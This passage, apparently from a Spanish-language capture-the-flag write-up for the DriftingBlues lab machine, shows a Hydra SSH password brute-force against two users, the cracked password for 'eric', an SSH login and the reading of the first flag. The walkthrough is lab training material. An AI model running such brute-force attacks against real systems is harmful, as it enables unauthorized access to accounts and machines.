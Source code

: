 Ejecutamos *Hydra* sobre los usuarios sheryl y eric utilizando el diccionario.

```bash
❯ hydra -L users.txt -P dic.txt driftingblues.box ssh -t 10
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-26 12:41:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 20 login tries (l:2/p:10), ~2 tries per task
[DATA] attacking ssh://driftingblues.box:22/
[22][ssh] host: driftingblues.box   login: eric   password: 1mw4ckyyucky6
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-26 12:41:09
```

Tenemos la password de eric, nos conectamos por SSH.

```bash
❯ ssh eric@driftingblues.box
The authenticity of host 'driftingblues.box (10.11.12.28)' can't be established.
ED25519 key fingerprint is SHA256:TPptpDbsZJVFnku0lz8RPzAVCG2F92ZjByju6dhXywQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'driftingblues.box' (ED25519) to the list of known hosts.
eric@driftingblues.box's password:
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-123-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

eric@driftingblues:~$
```

Listamos la Flag 1.

```bash
eric@driftingblues:~$ cat user.txt
flag 1/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█
```